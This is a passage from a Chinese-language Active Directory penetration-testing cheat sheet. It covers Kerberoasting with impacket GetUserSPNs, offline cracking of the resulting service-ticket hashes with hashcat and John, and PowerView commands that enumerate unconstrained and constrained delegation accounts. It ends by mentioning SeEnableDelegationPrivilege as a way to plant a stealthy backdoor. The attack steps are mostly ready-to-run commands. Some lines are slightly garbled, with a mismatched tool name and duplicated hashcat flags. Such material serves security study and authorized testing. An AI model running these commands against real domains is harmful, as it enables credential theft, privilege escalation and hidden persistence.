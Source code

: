- **GetUserSPN**
    使用 impacket 中的 GetUserSPN.py 也可以获取，不过需要域用户名和密码：
    ```powershell
    GetUserSPNs.exe -request -c -ip 192.168.3.142 ffffffff0x.com/sqlsvr
    ```

- 也可以使用 https://github.com/blacklanternsecurity/Convert-Invoke-Kerberoast

**解密**
```bash
# 使用 hashcat 解密
hashcat -m 13100 hash.txt dict.txt -o /opt/dict/dist.list --force   # 使用字典
hashcat -m 13100 -w 3 -a 3 -m 13100 hash -w 3 -a 3 ?l?l?l?l?l?l?l   # 使用掩码

# 使用 john 破解
./kirbi2john.py /root/empire-dev/downloads/BDW3E2G2ZRKCUS3B/*.kirbi > /tmp/johnkirb.txt
./john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

---

### 委派

#### 查找域中委派主机或账户

> 以下内容来自文章 <sup>[[浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/#%E6%9F%A5%E6%89%BE%E5%9F%9F%E4%B8%AD%E5%A7%94%E6%B4%BE%E4%B8%BB%E6%9C%BA%E6%88%96%E8%B4%A6%E6%88%B7)]</sup>

当服务账号被设置为非约束性委派时，其 `userAccountControl` 属性会包含为 TRUSTED_FOR_DELEGATION;当被设置为约束性委派时，其 userAccountControl 属性包含 TRUSTED_TO_AUTH_FOR_DELEGATION（T2A4D），且 msDS-AllowedToDelegateTo 属性会被设置为哪些协议:

加载 powerview，查询无约束委派账户：
```powershell
Get-NetUser -Unconstrained -Domain ffffffff0x.com

//另外一个版本的Powerview
Get-DomainUser -Properties useraccountcontrol,msds-allowedtodelegateto| fl
```

加载 powerview，查询无约束委派机器：
```powershell
Get-NetComputer -Unconstrained -Domain ffffffff0x.com

//另外一个版本的Powerview
Get-DomainComputer -Unconstrained -Properties distinguishedname,useraccountcontrol -Verbose| ft -a
```

加载 powerview，枚举域内所有的服务账号，查看哪些账号被设置了委派，以及是何种类型的委派设置：
```powershell
Get-NetUser -TrustedToAuth -Domain ffffffff0x.com

Get-DomainUser -TrustedToAuth -Properties distinguishedname,useraccountcontrol,msds-allowedtodelegateto| fl

Get-DomainComputer -TrustedToAuth -Domain ffffffff0x.com
```
当一个用户具备对某个服务账号的 SeEnableDelegationPrivilege 权限时，表示可以更改服务账号的委派设置，一般情况下只有域管理员才具备这个权限。因此也可以利用 SeEnableDelegationPrivilege 属性，制作极其隐蔽的后门。

